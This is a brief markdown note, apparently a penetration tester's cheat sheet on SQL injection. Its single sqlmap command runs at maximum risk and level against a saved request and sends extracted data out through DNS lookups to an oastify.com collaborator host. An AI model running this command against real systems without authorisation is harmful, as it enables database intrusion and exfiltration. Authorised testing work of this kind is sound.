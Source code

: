 # SQLI

Make sure SQLMAP DNS Collaborator extension is still installed (testing)

```bash
sudo sqlmap --risk 3 --level 3 -r request.item --threads 4 -o --batch --dns-domain=laz3k1ymu2kc0idl9tumx345nwtnhf54.oastify.com
```

